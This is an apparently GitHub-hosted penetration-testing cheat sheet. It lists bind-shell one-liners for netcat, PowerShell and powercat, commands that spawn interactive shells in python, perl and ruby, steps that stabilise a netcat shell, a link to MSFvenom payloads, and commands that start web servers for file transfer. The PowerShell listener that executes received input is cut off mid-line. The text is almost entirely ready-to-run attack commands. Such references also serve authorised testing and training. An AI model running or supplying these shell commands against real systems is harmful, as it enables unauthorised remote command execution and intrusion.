 ### Bind shells
#### Netcat
```
nc -nlvp <PORT>
```

#### Powershell
```
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('<IP>',<PORT>);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'P
```

#### Powercat
```
powercat -l -p <PORT> -e cmd.exe
```

### Spawn TTY Shells
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

```
echo os.system('/bin/bash')
```

```
/bin/sh -i
```

```
perl —e 'exec "/bin/sh";'
```

```
perl: exec "/bin/sh";
```

```
ruby: exec "/bin/sh"
```

#### Enable tab completion
1. In your active shell press ```bg``` to send your nc session to background
2. Enter ```stty raw -echo```
3. Enter ```fg``` to bring your nc session to foreground
4. ```export TERM=xterm-256color``

### MSFvenom payloads
- https://github.com/frizb/MSF-Venom-Cheatsheet/blob/master/README.md

## File transfers
### Download files
#### Start webservers
```
sudo service apache2 start #files in /var/www/html
sudo python3 -m http.server <PORT> #files in current 
sudo python2 -m SimpleHTTPServer <PORT>
sudo php -S 0.0.0.0:<PORT>
sudo ruby -run -e httpd . -p <PORT>
sudo busybox httpd -f -p <PORT>
```
